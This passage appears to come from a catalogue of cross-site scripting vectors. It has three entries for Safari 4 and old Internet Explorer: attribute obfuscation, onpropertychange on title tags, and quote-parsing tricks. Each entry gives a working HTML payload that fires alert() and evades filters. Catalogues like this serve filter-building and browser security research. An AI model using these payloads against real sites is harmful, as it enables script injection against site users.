 reporter：.mario, hasegawayosuke

### Safari attribute ofuscation with slashes and quotes#106test

Safari accepts slashes and quotes (if preceded by whitespace, slashes or other quotes) between attribute names and the equals character (name/"'=value). This enables interesting possibilities to obfuscate HTML strings, bypass filters and mimick attributes like in the given example.

```
<img src onerror /" '"= alt=alert(1)//"> 
```

*   safari 4.0
*   safari 4.0.3

*   xss

*   javascript
*   safari
*   attributes
*   delimiter
*   parser

reporter：Superhei, .mario

### JavaScript execution via <TITLE> tag on Inernet Explorer 9#107test

Internet Explorer 9 allows execution of JavaScript via onpropertychange event handler on <title> tags if another <title> tag follows up - having at least one valid attribute. This vector works in IE6-8 Standards mode and in IE9 quirks mode.

```
<title onpropertychange=alert(1)></title><title title=></title> 
```

*   internet explorer 6.0
*   internet explorer latest (in older docmodes)

*   xss

*   javascript
*   title
*   onpropertychange
*   internet explorer

reporter：.mario

### Internet Explorer parameter parsing issue#108test

Internet Explorer treats the sequence of any quotes that follows the equal sign in a parameter without delimiters as the beginning of some semblance of new parameter.

```
<!-- IE 5-8 standards mode --> <a href=http://foo.bar/#x=`y></a><img alt="`><img src=xx:x onerror=alert(1)></a>"> <!-- IE 5-9 standards mode --> <!a foo=x=`y><img alt="`><img src=xx:x onerror=alert(2)//"> <?a foo=x=`y><img alt="`><img src=xx:x onerror=alert(3)//"> 
```

